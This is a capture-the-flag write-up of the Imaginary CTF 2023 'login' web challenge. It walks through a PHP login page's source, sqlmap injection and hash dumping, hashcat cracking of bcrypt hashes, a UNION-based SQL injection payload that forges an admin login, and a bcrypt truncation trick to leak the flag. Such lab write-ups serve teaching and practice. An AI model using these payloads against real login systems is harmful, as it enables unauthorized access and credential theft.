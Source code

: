 ```yaml
---
CTF: Imaginary CTF 2023
Challenge Name: login
Category: Web
Date: 22/07/23
Author: maple3142
Points: 100
Solves: 98
---
```


### Description
>A classic PHP login page, nothing special.

## Recon
Try to login with `admin:admin` and get `Invalid username or password`.

View page source and find a comment.
```html
<!-- /?source -->
```

Aight so let's check http://login.chal.imaginaryctf.org/?source
```php
$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
```

So the `$flag` will be appended to the `$password` if we provide the correct `$magic` value as a GET parameter, e.g. http://login.chal.imaginaryctf.org/?aabbccdd11223344

As the `$msg` indicates, logging in as the admin will not provide the flag. It will give us the `$magic` value we need but we'll still need a way to recover the flag.

## Solution
I go straight for `sqlmap`, feeding the POST login request as a file.
```bash
sqlmap -r new.req --batch
```

We quickly find our vuln.
```bash
Parameter: username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username=admin' AND 7431=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- bqUp&password=admin
```

Let's exploit it to get the admin's password, then we can login and get the magic value! Start off finding the tables.
```bash
sqlmap -r new.req --batch --tables
+-------+
| users |
+-------+
```

Now we can use `--columns` to narrow it down further.
```bash
sqlmap -r new.req --batch -T users --columns
```

However, I decided to guess instead.
```bash
sqlmap -r new.req --batch -T users -C password --dump
+----------+
| password |
+----------+
| <blank>  |
| <blank>  |
+----------+
```

Guess we need `pwhash` instead, then we can crack it.
```bash
sqlmap -r new.req --batch -T users -C pwhash --dump
+--------------------------------------------------------------+
| pwhash                                                       |
+--------------------------------------------------------------+
| $2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S. |
| $2y$10$Is00vB1hRNHYBl9BzJwDouQFCU85YyRjJ81q0CX1a3sYtvsZvJudC |
+--------------------------------------------------------------+
```

Let's confirm the hash type.
```bash
hashid '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

We check the mode in hashcat and put the hashes into a file called "hash".
```bash
hashcat -h | grep -i blowfish
3200 | bcrypt $2*$, Blowfish (Unix
```

Time to crack (I have the rockyou.txt wordlist in an environment variable)!
```bash
hashcat -m 3200 hash $rockyou
```

It said it would take 2 days in my VM so I switched to windows (GPU), reduced time to ~10 hours.
```bash
hashcat.exe -m 3200 hashes/hashes.txt wordlists/rockyou.txt
```

Not likely to be intended lol. I guess we could half the time by only trying to crack the admin password. I ran SQLMap again and dumped the users; `guest` and `admin`.

Note, we can login as `guest:guest` but just get `Welcome guest! But there is no flag here :P`.

Maybe [Password_verify() always return true with some hash](https://bugs.php.net/bug.php?id=81744)

Nope, didn't work for me. Maybe [SQL Injection with password_verify()](https://stackoverflow.com/a/50788204)

It looks good! According to [this answer](https://stackoverflow.com/a/50788242) we can select a username, along with a "fake" password hash of our choice.
```sql
 SELECT * FROM table 
 WHERE Username = 'xxx'
 UNION SELECT 'root' AS username, '$6$ErsDojKr$7wXeObXJSXeSRzCWFi0ANfqTPndUGlEp0y1NkhzVl5lWaLibhkEucBklU6j43/JeUPEtLlpRFsFcSOqtEfqRe0' AS Password'
```

Took some trial and error but eventually:
```sql
guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --
```

So the full SQL statement on the backend will look like.
```sql
$res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = 'guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --'", true);
```

Essentially, it's grabbing the `admin` user along with the `guest` password hash (which we know translates to `guest`). We login (username set to our SQLi payload and the password is `guest`). Our `magic` value is in the source!
```html
Welcome admin! But there is no flag here :P<!-- magic: 688a35c685a7a654abc80f8e123ad9f0 -->
```

Now we know that visiting http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0 will trigger the following code, appending the flag to the password.
```php
if (isset($_GET[$magic])) {
    $password .= $flag;
}
```

Note: I didn't finish this challenge but let me finish the writeup for the sake of completion.

There's a recently closed [github issue](https://github.com/php/doc-en/issues/1328): `password_hash documentation: Caution about bcrypt max password length of 72 should mention bytes instead of characters`
>Caution Using the PASSWORD_BCRYPT as the algorithm, will result in the password parameter being truncated to a maximum length of 72 characters.

So, we can combine our first exploit (selecting any known password hash with SQLi) with the truncation vulnerability.

We submit the bcrypt hash of `(71 * A) + flag_char` as the password, where `flag_char` is looping through all printable ASCII chars.

If the login is successful, we've cracked that character of the flag and we can now do `(70 * A) + flag_char`, until we have the full flag.

Doing so would recover our flag.
```txt
ictf{why_are_bcrypt_truncating_my_passwords?!}
```

Apparently, this was covered in a [recent video](https://www.youtube.com/watch?v=E5TOeiCnGkE&t=3183s) from IppSec. There's a [solve script](https://github.com/f0rk3b0mb/ImaginaryCTF_login/blob/main/expoloit.py) included with f0rk3b0mb's [writeup](https://f0rk3b0mb.github.io/p/imaginaryctf2023) 💜